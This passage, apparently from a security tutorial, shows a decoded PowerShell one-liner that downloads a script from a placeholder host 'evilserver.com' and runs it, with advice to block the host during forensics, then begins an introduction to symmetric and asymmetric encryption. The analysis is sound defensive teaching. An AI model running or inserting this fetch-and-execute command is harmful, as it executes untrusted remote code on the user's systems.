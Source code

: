 This results in:

```powershell
(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr(\'http://evilserver.com/malicious_script.ps1\')|iex
```

This is a popular PowerShell one-liner script that retrieves a remote payload, `malicious_script.ps1`, on a remote server, `evilserver.com`.

With this result you can immediately help secure your organization by putting this IP on detection and blocking it on your firewalls, while you continue your forensic analysis.





## Encryption

The goal on encryption is to transform the data in a way that only authorized entities (with a key or password) are able to decrypt and read the original content.

This is done by transforming readable information, *plaintext*, into unreadable information, *ciphertext*,  using an algorithm, *cipher*, in order to protect the information during communication.

There is two main encryption techniques: symmetric (or *secret key*) and asymmetric (or *public key*).

![Encryption](/assets/images/Encryption.png)

In **symmetric encryption**, a single secret key (K) is used to both encrypt and decrypt the plaintext message (M).

*Examples of symmetric encryption ciphers*:

* Data Encryption Standard (DES),
* Triple DES,
* Advanced Encryption Standard (AES).

In **asymmetric encryption**, two keys are used to encrypt and decrypt the data, a public (K) and private key (K<sup>-1</sup>). To ensure the confidentiality of the message, the sender will encrypt with the receiver's public key. This way, only the receiver and its private key will be able to decrypt the message.

*Examples of asymmetric encryption ciphers:*
